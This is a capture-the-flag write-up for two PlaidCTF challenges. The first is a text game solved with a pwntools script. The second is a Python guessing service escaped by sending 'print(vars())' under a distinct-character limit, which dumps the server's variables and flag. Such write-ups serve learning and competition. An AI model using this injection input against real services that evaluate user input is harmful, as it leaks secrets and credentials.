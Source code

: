 # Everland

    Description:
    In a darkened land, a hero must fight for their flag! Source
    running at everland.pwni.ng:7772
    
Everland was a textbased monster killing game. There were a few people looking at this and they figured out `fight` plus `2` or `Recouperate` will heal yourself by 10 and also do 10hp to the monster. I scripted this and then figured out Capturing an enemy at 0hp to Sacrifice to the final boss would lead to the flag. 

## Solution 
```
#!/usr/env/python
from pwn import *

r = remote('everland.pwni.ng',7772)

r.sendline("chris")

for j in range(0, 10):
    print(r.recvline())
    r.sendline("forage")
    print(r.recvline())

for k in range(0, 4):
    print(r.recvline())
    r.sendline("use")
    print(r.recvline())
    r.sendline("0")
    print(r.recvline())


for i in range(0, 81):
    print(r.recvline())
    r.sendline("fight")
    print(r.recvline())
    r.sendline("2")
    print(r.recvline())

r.interactive()
```
This script gets you to the last turn with a normal enemy before making it to the boss. This is where I would use the rest of the items and then `fight` and `4` or `Capture` the enemy. You then move onto the boss and this is where you `fight` and `6` or `Sacrifice` and then you kill the Possessed monster and get the flag. The full log is in this repo. 

Flag: `PCTF{just_be_glad_i_didnt_arm_cpt_hook_with_GADTs}`


# can you guess me

    Description:
    Here's the source to a guessing game: here
    You can access the server at
    nc canyouguessme.pwni.ng 12349

Looking at the source we figured out we could input any set of characters that is less than or equal to 10. Not 10 total but 10 distinct characters. 
We chose `print(vars())` as it would print out all the variables, including flag. The of `print(vas)` is exactly 10 and thus was valid. 

```


  ____         __   __           ____                     __  __
 / ___|__ _ _ _\ \ / /__  _   _ / ___|_   _  ___  ___ ___|  \/  | ___
| |   / _` | '_ \ V / _ \| | | | |  _| | | |/ _ \/ __/ __| |\/| |/ _ \
| |__| (_| | | | | | (_) | |_| | |_| | |_| |  __/\__ \__ \ |  | |  __/
 \____\__,_|_| |_|_|\___/ \__,_|\____|\__,_|\___||___/___/_|  |_|\___|



Input value: print(vars())
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7f368183b9e8>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': '/home/guessme/can-you-guess-me.py', '__cached__': None, 'exit': <built-in function exit>, 'secret_value_for_password': 'not even a number; this is a damn string; and it has all 26 characters of the alphabet; abcdefghijklmnopqrstuvwxyz; lol', 'flag': 'PCTF{hmm_so_you_were_Able_2_g0lf_it_down?_Here_have_a_flag}', 'exec': <function exec at 0x7f3681784158>, 'val': 0, 'inp': 'print(vars())', 'count_digits': 10}
Nope. Better luck next time.
```

Flag: `PCTF{hmm_so_you_were_Able_2_g0lf_it_down?_Here_have_a_flag}`

I played for my school's team this time instead of going it alone. IASG was in 3rd for a bit however we all got distracted by homework and didn't score past Friday night leaving us in 136th at the end.